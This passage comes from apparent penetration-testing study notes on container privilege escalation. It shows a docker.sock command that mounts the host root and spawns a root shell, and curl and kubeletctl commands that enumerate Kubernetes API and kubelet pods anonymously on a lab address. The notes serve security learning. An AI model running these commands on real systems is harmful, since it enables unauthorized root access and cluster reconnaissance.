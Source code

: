     * Docker group:

        ```sh
        id
        # check if part of docker group
        # or check if docker has suid bit set or if we are in sudoers file

        docker image ls
        # check images
        ```
    
    * Docker socket:

        ```sh
        ls -la /var/run/docker.sock
        # check if the Docker socket is writable

        docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
        # we get root shell
        ```

* Kubernetes:

    * k8s - container orchestration system which functions by running apps in containers isolated from host system; has a master node (control plane) and worker nodes

    * Pods can hold closely connected containers; each pod functions as a separate VM on a node

    * k8s API:

        ```sh
        curl https://10.129.10.11:6443 -k
        # API server interaction
        # system:anonymous - unauthenticated user

        curl https://10.129.10.11:10250/pods -k | jq .
        # extracting pods from kubelet API
        # this gives all container details

        kubeletctl -i --server 10.129.10.11 pods
        # check pods
